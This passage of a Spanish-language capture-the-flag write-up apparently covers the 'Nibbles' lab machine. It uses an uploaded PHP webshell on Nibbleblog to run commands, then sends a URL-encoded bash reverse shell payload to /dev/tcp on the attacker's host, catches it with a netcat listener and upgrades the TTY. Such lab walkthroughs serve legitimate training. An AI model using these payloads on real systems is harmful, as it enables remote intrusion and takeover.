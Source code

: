 `Analizando` el `código` del `exploit` vemos que la `ruta` donde se `sube` nuestro archivo `.php` es `http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami`. El output que nos devuelve este comando es el siguiente

![](/assets/img/Nibbles/image_7.png)

Vamos a mandarnos una `reverse shell` a nuestro `equipo`, para ello debemos ponernos en escucha por el `puerto 443` y usar este `payload` en la `url`. El `payload` ha sido `generado` en [https://www.revshells.com/](https://www.revshells.com/)

```
# nc -nlvp 443
```

```
http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.15%2F443%200%3E%261%27
```

## Intrusión

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443             
listening on [any] 443 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.96.84] 50734
bash: cannot set terminal process group (1351): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
